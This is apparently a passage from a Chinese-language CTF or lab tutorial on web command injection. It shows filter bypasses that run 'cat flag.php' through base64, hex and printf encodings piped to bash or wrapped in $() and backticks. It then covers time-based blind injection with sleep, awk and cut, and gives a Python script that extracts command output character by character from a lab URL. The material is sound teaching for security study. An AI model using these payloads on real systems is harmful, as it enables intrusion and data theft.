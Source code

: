 `echo Y2F0IC9mbGFnLnBocA== | base64 -d | bash`

或者$(echo Y2F0IC9mbGFnLnBocA== | base64 -d)   $()和反引号  **`**作用相同

base32编码     hex编码等

```python
import binascii

s = b'tac flag'
h = binascii.b2a_hex(s)
print(h)
#h = b'74616320666c6167'
```

`echo 74616320666c6167 | xxd -r -p`

使用shellcode编码，直接printf就可以转码

`printf "\x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x70\x68\x70"`

`flag.php`

总结，编码有**base64系列**，**hex**，**shellcode**

执行方法有 **| bash**      **$()**     **反引号``**      **system**

## 11：无回显时间盲注

页面无回显，并且无法反弹webshell，尝试命令盲注

根据返回的时间来判断

读取文件指定行的指定位置的字符

`sleep`     `awk NR`

`cat flag.php | awk NR == 1 `查看第一行

`cat flag.php | awk NR == 1 | cut -c 1`查看第一行第一个字符

使用if语句(**if和[]左右必须要有空格**)

`if [];then ; fi`

 `if [ $(cat flag.php | awk NR == 1 | cut -c 1) == a ];then echo 'right';fi`

无回显，则使用sleep指令

 `if [ $(cat flag.php | awk NR == 1 | cut -c 1) == a ];then sleep 2;fi`

python脚本示例

```python
#多线程docker也可能跟不上
import requests
import time
url = "http://192.168.59.128:18080/class08/1.php"
result = ""
for i in range(1,6):#行数
    for j in range(1,11):#每行字符数
        for k in range(32,127):#可打印ascii字符范围32~126
            time.sleep(0.1)#防止太快docker性能跟不上
            payload = "?cmd=" + f"if [ `ls | awk NR=={i} | cut -c {j}` == {chr(k)} ];then sleep 2;fi"
            #这里用try是因为超时才代表猜解字符正确，才能执行下面代码
            try:
                requests.get(url=url+payload,timeout=(1.5,1.5))
            except requests.exceptions.Timeout:
                result = result + chr(k)
                print(result)
                break
    result +=""
```